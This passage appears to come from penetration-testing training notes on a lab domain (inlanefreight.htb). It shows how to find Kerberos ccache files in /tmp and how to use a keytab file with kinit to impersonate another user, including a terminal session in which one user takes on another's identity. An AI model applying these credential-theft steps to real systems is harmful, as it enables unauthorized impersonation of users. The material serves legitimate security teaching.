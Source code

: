 ### Finding ccache Files

A credential cache file holds Kerberos credentials while they remain valid, and generally while the user's session last, from when the user authenticates the domain. The `KRB5CCNAME` environment variable stores the path to this file is used by tools that support Kerberos authentication.

#### Reviewing Environment Variables for ccache Files
```shell-session
$ env | grep -i krb5
```

ccache files our stored by default in `/tmp`, if we gain access as privileged user we can impersonate a logged on user while the ccache file is still valid.

#### Searching for ccache Files in /tmp
```shell-session
$ ls -la /tmp
```

## Abusing Keytab Files

With a keytab file we can impersonate a user using `kinit`. To use the file we should know which user it was created for, `klist` is another application used to interact with Kerberos on Linux, the application reads the information from keytab file.

### Listing Keytab File Information
```shell-session
$ klist -k -t 
```

**Note:** **kinit** is case-sensitive.

### Impersonate a User with Keytab
```shell-session
david@inlanefreight.htb@linux01:~$ klist 

Ticket cache: FILE:/tmp/krb5cc_647401107_r5qiuu
Default principal: david@INLANEFREIGHT.HTB

Valid starting     Expires            Service principal
10/06/22 17:02:11  10/07/22 03:02:11  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/07/22 17:02:11
david@inlanefreight.htb@linux01:~$ kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
david@inlanefreight.htb@linux01:~$ klist 
Ticket cache: FILE:/tmp/krb5cc_647401107_r5qiuu
Default principal: carlos@INLANEFREIGHT.HTB

Valid starting     Expires            Service principal
10/06/22 17:16:11  10/07/22 03:16:11  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/07/22 17:16:11
```
